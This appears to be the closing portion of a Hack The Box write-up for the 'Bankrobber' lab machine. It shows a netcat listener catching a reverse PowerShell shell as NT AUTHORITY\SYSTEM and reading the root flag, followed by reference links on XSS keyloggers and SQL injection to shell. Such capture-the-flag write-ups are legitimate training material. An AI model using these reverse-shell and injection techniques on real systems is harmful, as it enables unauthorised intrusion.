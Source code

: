     root@p3:/opt/htb/machines/bankrobber# nc -lvnp 4499
      listening on [any] 4499 ...
      connect to [10.10.14.21] from (UNKNOWN) [10.10.10.154] 50702
      Windows PowerShell
      Copyright (C) 2016 Microsoft Corporation. All rights reserved.

    PS C:\Windows\system32> whoami
      nt authority\system
    PS C:\Users\admin\Desktop> type root.txt
      aa65d8e6216585ea636eb07d4a59b197


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

XSS
  https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#javascript-keylogger
  https://www.ivoidwarranties.tech/posts/pentesting-tuts/website-pentesting/xss/
  https://stackoverflow.com/questions/1045845/how-to-call-a-javascript-function-from-php

SQLi
  https://medium.com/@Kan1shka9/pentesterlab-from-sql-injection-to-shell-walkthrough-7b70cd540bc8
  https://medium.com/bugbountywriteup/sql-injection-with-load-file-and-into-outfile-c62f7d92c4e2
  http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

JS POST Request:
  https://stackoverflow.com/questions/692196/post-request-javascript

XML HTTP:
  https://www.w3schools.com/xml/xml_http.asp
  https://www.w3schools.com/xml/ajax_xmlhttprequest_response.asp

Python Script:
  https://docs.python.org/release/2.5.2/lib/typesseq-strings.html
  https://blog.anshumanonline.com/bandit25/
```